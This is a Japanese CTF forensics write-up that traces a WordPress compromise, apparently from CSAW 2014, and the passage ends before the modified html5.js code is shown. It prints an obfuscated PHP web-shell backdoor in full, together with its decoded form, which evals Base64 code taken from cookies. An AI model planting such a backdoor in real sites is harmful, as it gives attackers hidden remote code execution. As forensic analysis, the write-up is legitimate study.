 アクセスログから/wp-content/uploads/wysija/themes/weblizer/template.phpというのにアクセスしていることがわかったので、そのファイルを見てみます。中身は次のようなPHPファイルです。

```php
<?php
$hije = str_replace("ey","","seyteyrey_reyeeypleyaeyceye");
$andp="JsqGMsq9J2NvdW50JzskYT0kX0NPT0tJRTtpZihyZXNldCgkYSsqk9PSdoYScgJisqYgsqJsqGMoJ";
$rhhm="nsqKSwgam9pbihhcnJheV9zbGljZSgkYSwksqYygkYSksqtMykpKSksqpO2VjaG8sqgJsqzwvJy4kay4nPic7fQ==";
$pvqw="GEpPjMpeyRrPSdja2l0JztlY2hvICc8Jy4kaysq4nPicsq7ZXZhbChsqiYXNlNjRfZGVjb2RlKHByZsqWdfcmVw";
$wfrm="bGFjZShhcnsqJheSsqgsqnsqL1teXHcsq9XHNdLycsJy9ccy8nKSwgYsqXJyYXksqoJycsJyssq";
$vyoh = $hije("n", "", "nbnansne64n_ndnecode");
$bpzy = $hije("z","","zczreaztzez_zfzuznzcztzizon");
$xhju = $bpzy('', $vyoh($hije("sq", "", $andp.$pvqw.$wfrm.$rhhm))); $xhju();
?>
```

`$hije`が`str_replace`、`$vyoh`が`base64_decode`、`$bpzy`が`create_function`関数です。このとき初めて知ったんですが、PHPでは文字列変数に対して`$hoge()`みたいに`()`を付けて使うと、その変数に入っている名前の関数を呼び出すという機能があります。びっくり。

それはともかくとして、このコードは

1. `$andp`、`$pvqw`、`$wfrm`、`$rhhm`を結合する
2. その中の'sq'を取り除く
3. その文字列をBase64デコードする
4. その文字列を関数化する
5. それを実行する

というコードです。`create_function`で関数化されたコードは次のコードです（実際の出力を整形しています）

```php
$c='count';
$a=$_COOKIE;
if (reset($a) == 'ha' && $c($a) > 3) {
  $k='ckit';
  echo '<'.$k.'>';
  eval(base64_decode(preg_replace(array('/[^\w=\s]/','/\s/'), array('','+'), join(array_slice($a,$c($a)-3)))));
  echo '</'.$k.'>';
}
```

Cookieが所定の条件を満たすとき、その中に入っているBase64文字列をevalする、というコードのようです。どう見てもバックドアです。本当にありがとうございました。

しかし、ログに記録されてない上にパケットキャプチャもないので、Cookieの中身はわかりません。つまりどんなコードが実行されたのかが全く不明です。データベースの中に何かしら残っていないか探してみましたが見つかりません。ここで一旦手詰まりとなってしまいました。

そこで隣に座ってた某氏が'/var/log/auth.log'を見ていて次の箇所を指摘しました。

```
Sep 17 19:20:09 ubuntu sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu/CSAW2014-WordPress/var/www ; USER=root ; COMMAND=/usr/bin/vi /var/www/html/wp-content/themes/twentythirteen/js/html5.js
```

ご覧の通り、sudoでviが実行されています。察し。……ていうかubuntuユーザーでログインされてsudoまでされてるんですがそれは……。

それはともかく/wp-content/themes/twentythirteen/js/html5.jsを見てみます。先頭のコメントにHTML5 Shivとあります。バージョンは3.7.0。[HTML5Shivのリポジトリ](https://github.com/aFarkas/html5shiv)から3.7.0のファイルをダウンロードし、このファイルとの差異を探すと、末尾に次のコードが追加されていました。
